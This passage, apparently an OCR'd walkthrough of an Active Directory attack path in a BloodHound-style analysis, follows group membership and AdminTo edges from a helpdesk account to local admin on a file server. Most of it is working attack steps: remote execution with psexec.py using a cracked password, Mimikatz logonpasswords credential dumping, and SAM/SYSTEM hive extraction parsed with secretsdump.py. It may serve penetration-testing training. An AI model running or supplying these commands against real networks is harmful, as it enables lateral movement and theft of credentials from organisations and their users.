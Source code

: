 
**Relationship 3: MemberOf (HELPDESK-ADMIN → SERVER-ADMINS)**
- **Type:** Group membership
- **Exploitable:** No (automatic privilege inheritance)
- **Action:** Authenticate as helpdesk-admin (obtained in previous step)
- **Notes:** Server-Admins rights are inherited automatically

---

**Relationship 4: AdminTo (SERVER-ADMINS → FILE-SERVER01)**
- **Type:** Local Administrator Rights
- **Exploitable:** YES ✓
- **What it means:** helpdesk-admin (via Server-Admins group) has local admin on FILE-SERVER01

**Click edge for exploitation details:**

```
AdminTo

The SERVER-ADMINS@CORP.LOCAL group has local administrator rights on 
FILE-SERVER01.CORP.LOCAL.

Abuse Info:
As a local administrator, you can:
- Execute commands remotely
- Dump credentials from memory
- Extract cached credentials
- Install malware/persistence

Windows Abuse:
Invoke-Command -ComputerName FILE-SERVER01 -ScriptBlock {whoami}

Linux Abuse:
psexec.py corp/helpdesk-admin:CrackedPass@FILE-SERVER01.corp.local
```

**Exploitation Steps:**

From Windows (as helpdesk-admin):
```powershell
# Test access:
Invoke-Command -ComputerName FILE-SERVER01 -ScriptBlock {hostname}
# Output: FILE-SERVER01

# Dump credentials:
Invoke-Mimikatz -ComputerName FILE-SERVER01 -Command '"privilege::debug" "sekurlsa::logonpasswords"'

# Or extract SAM database:
Invoke-Command -ComputerName FILE-SERVER01 -ScriptBlock {
    reg save HKLM\SAM C:\Windows\Temp\sam.save
    reg save HKLM\SYSTEM C:\Windows\Temp\system.save
}

# Copy back and parse:
Copy-Item \\FILE-SERVER01\C$\Windows\Temp\*.save C:\Temp\
secretsdump.py -sam sam.save -system system.save LOCAL
```
